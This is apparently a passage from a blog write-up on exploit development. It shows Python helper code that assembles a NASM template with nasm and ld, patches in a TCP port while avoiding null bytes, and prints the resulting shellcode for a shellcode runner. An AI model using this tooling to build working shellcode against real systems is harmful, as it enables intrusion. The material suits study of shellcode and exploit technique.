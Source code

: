 ```py
    shellcode = proc.stdout
    shellcode_string = ""

    for b in shellcode:
        shellcode_string += f"\\x{b:02x}"

    if 0x00 in shellcode:
        print(f"[!] Found NULL byte in shellcode")

    print(f"[+] Shellcode length: {len(shellcode)} bytes")
    print(f"[+] Shellcode:")
    print(f'"{shellcode_string}";')
```

{% sidenote I wrote the function `print_shellcode` in order to extract the executable code from the `.text` section of the object file. It allows you to easily paste the shellcode into the shellcode runner %}

```py
def generate_shellcode(output_file_path):

    object_file_path = output_file_path.replace(".nasm", ".o", 1)
    executable_path = output_file_path.replace(".nasm", "", 1)

    try:
        os.system(f"nasm -f elf32 -o {object_file_path} {output_file_path}")
        os.system(f"ld -m elf_i386 -o {executable_path} {object_file_path}")
```

{% sidenote The program also requires `nasm` and `ld`, the latter should be present by default on Linux systems %}

```py
        print(f"[+] Object file generated at {output_file_path}")
        print(f"[+] Executable binary generated at {executable_path}")

        print_shellcode(object_file_path)
    except:
        print(traceback.format_exc())
        sys.exit(1)

def replace_template_values(template_name, tcp_port, output_file_path):

    with open(template_name) as f:
        template_code = f.read()

    tcp_port_hex = (tcp_port).to_bytes(2, "little").hex()

    if '00' in tcp_port_hex:
        if '00' in tcp_port_hex[:2]:
            non_null_byte = tcp_port_hex[2:]
            replace_code = f"mov bl, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
        else:
            non_null_byte = tcp_port_hex[:2]
            replace_code = f"mov bh, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
    else:
        replace_code = f"push WORD 0x{tcp_port_hex}"
```
